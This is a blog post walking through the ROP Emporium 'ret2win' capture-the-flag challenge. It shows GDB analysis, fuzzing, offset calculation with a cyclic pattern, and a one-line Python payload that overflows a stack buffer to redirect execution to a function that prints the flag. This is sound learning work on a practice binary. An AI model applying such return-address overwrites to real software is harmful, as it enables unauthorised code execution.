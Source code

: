 ```yaml
---
layout: post
title:  "ROPEmorium - Ret2win"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation and teach my self Return oriented programming(ROP).im starting with ROP Emporium challenges. These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
Doing these challenges to improve my binary exploitation and teach my self Return oriented programming(ROP).im starting with ROP Emporium challenges. These challenges use the usual CTF objective of retrieving the contents of a file named "flag.txt" from a remote machine by exploiting a given binary.ROP theory is out of scope of this article, If you want ROP theory there are lot of good resources out there.

## Description 
Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.
Click below to download the binary. 

### About the Binary:
Our binary is usual ELF executable in 64-bit architecture. 

![source-01](/img/Screenshot_2020-05-09_11-12-06.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime.With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with GDB and dump the functions.
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004005a0  _init
0x00000000004005d0  puts@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  memset@plt
0x0000000000400610  __libc_start_main@plt
0x0000000000400620  fgets@plt
0x0000000000400630  setvbuf@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  main
0x00000000004007b5  pwnme
0x0000000000400811  ret2win
0x0000000000400840  __libc_csu_init
0x00000000004008b0  __libc_csu_fini
0x00000000004008b4  _fini
```
Here we can see interesting functions:
- main()
- pwnme()
- ret2win()

So lets see what this fucntions does!

main():


![source-01](/img/Screenshot_2020-05-09_11-15-15.png){: .align-left}


So The main function  uses puts() to output a some texts, then calls the pwnme(), the texts we get when we run the program first time.


pwnme():


![source-01](/img/Screenshot_2020-05-09_11-16-18.png){: .align-left}


We see that the pwnme function allocates a 32 byte (0x20 hex) area of memory.fgets function that will get 50 bytes from standard input into the buffer.
This function takes user input using fgets(), and stores it in a  buffer of size 32. There is no bound check on the buffer, it is pretty clear that there is a is a stack bufferoverlow.


ret2win()


![source-01](/img/Screenshot_2020-05-09_11-17-39.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way Lets start the fun part.
Run the binary and enter some input

I enter 'welcome' and the program just exits, as expected. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted(crashed),we have a valid crash scenario here,but we are not sure if we overwritten any registers.So lets attach the binary to gdb and work on exploit.

Attach the binary to GDB using gdb -q return2win

## Calculating offset
Generate cylic pattern using gef and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


# Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

Payload:

The payload will be very simple:

[40 chars of junk] + [address of ret2win]
"A"*40             + "\x11\x08\x40"

Here is my final exploit: python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together, we have the following exploit, used pwntools to learn the tool.

Screenshot_2020-05-09_16-20-05.png	

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

### ~ End ~
Thats the end of ret2win challenge, as i progress through the challenges the exploits will become more complex and fun.Remember never stop learning, Cheers!.
> Exploit code for this challenge is on my github 



